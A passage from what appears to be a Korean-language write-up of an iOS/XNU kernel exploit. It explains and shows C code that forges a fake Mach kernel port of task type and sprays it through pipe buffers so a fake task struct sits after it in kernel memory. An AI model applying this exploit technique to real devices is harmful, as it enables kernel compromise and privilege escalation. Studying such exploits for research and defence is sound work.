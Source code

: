 ![image.png](pics/image%205.png)

다음으로, 커널 내의 포트 바로 뒤에 태스크 구조체를 담을 수 있도록 연속된 영역을 할당하게끔 만든다.

위조시킨 fakeport와 faketask 데이터들을 pipebuf에 복사하고, 파이프에 쓴다.

```c
    /* set up our fakeport for use later */
    kport_t *fakeport = NULL;
    fakeport = malloc(sizeof(kport_t));
    bzero((void *)fakeport, sizeof(kport_t));

    fakeport->ip_bits = IO_BITS_ACTIVE | IKOT_TASK;
    fakeport->ip_references = 100;
    fakeport->ip_lock.type = 0x11;
    fakeport->ip_messages.port.receiver_name = 1;
    fakeport->ip_messages.port.msgcount = 0;
    fakeport->ip_messages.port.qlimit = MACH_PORT_QLIMIT_LARGE;
    fakeport->ip_messages.port.waitq.flags = mach_port_waitq_flags();
    fakeport->ip_srights = 99;
#define PIPEBUF_TASK_OFFSET 0x100
    fakeport->ip_kobject = new_voucher.iv_port + PIPEBUF_TASK_OFFSET; /* place the task struct just after the kport */

    memcpy(pipebuf, (void *)fakeport, sizeof(kport_t));
    for (int i = 0; i < total_pipes; i++)
    {
        int wfd = pipefds[2 * i + 1];
        size_t written = write(wfd, pipebuf, pagesize - 1);
        
        if (written != pagesize - 1)
        {
            /* failed to write, all our pipebuffers are full & we've run out of mem */ 

            total_pipes = i;
            INFO("total_pipes is now: %d", total_pipes);
            break;
        }
    }
```
